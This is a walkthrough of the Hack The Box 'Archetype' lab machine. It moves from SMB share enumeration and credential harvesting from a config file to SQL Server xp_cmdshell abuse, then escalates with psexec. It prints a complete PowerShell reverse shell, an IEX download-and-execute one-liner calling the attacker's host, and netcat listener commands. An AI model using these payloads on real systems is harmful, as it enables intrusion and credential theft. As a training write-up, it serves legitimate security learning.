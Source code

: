 # Archetype Walkthrough

### Requirement

Following packages are required on the attacking machine -

Make sure your system is equipped with `git`, `ncat`, `nmap`, `python3`, `smbclient`, and `ufw`

Secure Auth Corp's Impacket collection https://www.secureauth.com/labs/open-source-tools/impacket/

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]

└─$ sudo apt-get python3-pip python3-venv git smbclient ncat nmap, utf
```

Connect to the machine using open vpn:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ sudo openvpn /path/to/your/file.ovpn
```

Start up a new terminal to verify if you're connected to the vpn tunnel by pinging the target machine

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ ping 10.10.10.27
```
--------------------------------------------------------------------------
## Information gathering:

**Reconnaissance** -
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ nmap -sV -Pn -T4 10.10.10.27
```

You'd see couple of ports exposed, the most promising being 445 (smb) and 1433 (sql server).

We will target port 445 - *Server Message Block*, using `smbclient`

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ smbclient -L \\10.10.10.27
```

**Getting regular user access** -

Great, there are two available shares with read access:

> IPC$: this hidden share is a special share used for inter-process communication. It doesn’t allow one to access files or directories like other shares, but rather allows one to communicate with processes running on the remote system.

> backups: a normal share with read access. It lacks a comment which means it could contain interesting data if we’re able to connect to it. 

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ smbclient \\\\10.10.10.27\\backups
```

Go ahead and explore the directory using `ls` and you'll notice a production configuration file `prod.dtsConfig`. Lets transfer that file to our local machine.

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ get prod.dtsConfig /home/<user>/Desktop/Archetype/secret
```

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ cat secret
```

--------------------------------------------------------------------------
## Began exploit:

On inspecting the file, you can see the username and password for the user.

We can use this information further, to connect to the *SQL Server*, and for this we’ll be using the `mssqlclient.py` script from the *Impacket toolkit*. 

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ sudo git clone https://github.com/SecureAuthCorp/impacket.git
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ cd impacket
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket]
└─$ sudo pip3 install .
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket]
└─$ cd examples
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket/examples]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
We insert the password found previously and we're in.
Next up, we run a query to find out if we have the highest privileges:

`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')`

The output of the query should be 1 (= true), confirming that we have sysadmin privileges.

Now we can enable the `xp_cmdshell`, to spawn a Windows command shell and pass in a string for execution, to gain Remote Command Execution.

`SQL> EXEC sp_configure 'Show Advanced Options', 1;`
`SQL> reconfigure;`
`SQL> sp_configure;`
`SQL> EXEC sp_configure 'xp_cmdshell', 1`
`SQL> reconfigure;`
`SQL> xp_cmdshell "whoami"`

After a bit of research I found we can host a file containing the reverse shell script locally and then get the SQL server to connect to our machine.

Save the following script as `reverse_shell.ps1`. Also make note of the ip address for `$client`. Since we're using *open vpn*, we'd be required to use that ip and port instead.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.19",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

Open up a new terminal to set up a Python http server to host the reverse shell script:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ python3 -m http.server 80
```

Open up another terminal to start a netcat listening session on port 443:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ nc -vnlp 443
```

Please note if you have your `ufw` firewall enabled in your VM, you'll need to change the rules to allow incoming requests to ports 80 and 443:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ ufw allow from 10.10.10.27 proto tcp to any port 80, 443
```

Heading back to the terminal with sql server, execute the following one-liner:

`SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.19/reverse_shell.ps1\");"`

And head back to the netcat listener to see if the shell spawned. If the script executed successfully, you should be able to see a shell there.

--------------------------------------------------------------------------
## Pwing the user account:

Once you can confirm the you've accessed the shell via user account `sql_svc`, start exploring the directory. 
 
The `user.txt` file containing the user flag is at the `sql_svc` user's desktop, so we just read the file:

`# whoami`
`# cd C:\Users\sql_svc\Desktop`
`# type user.txt`

Copy the hashcode and head over to your htb dashboard to submit it.

--------------------------------------------------------------------------
## Pwing the root account:

In order to get the root flag, we'll need to the root access i.e Administrator alias `nt authority\system`.
 
As this `sql_svc` account is a service account, it's good practice to check for recently accessed files and executed commands. 
To do so in PowerShell, we can insert the command below in our reverse shell:

`# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

You should be able to see the administrative credentials.

Finally we will use another script from the Impacket package `psexec` located under `Impacket/examples`

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket/examples]
└─$ python3 psexec.py administrator@10.10.10.27
```

Provide the password when prompted, and do a quick `whoami` check to verify the access..

Headover to the Desktop to access the `root.txt` file for root flag. 

`# whoami`
`# cd C:\Users\Administrator\Desktop`
`# type root.txt`

Copy the hash code and submit.
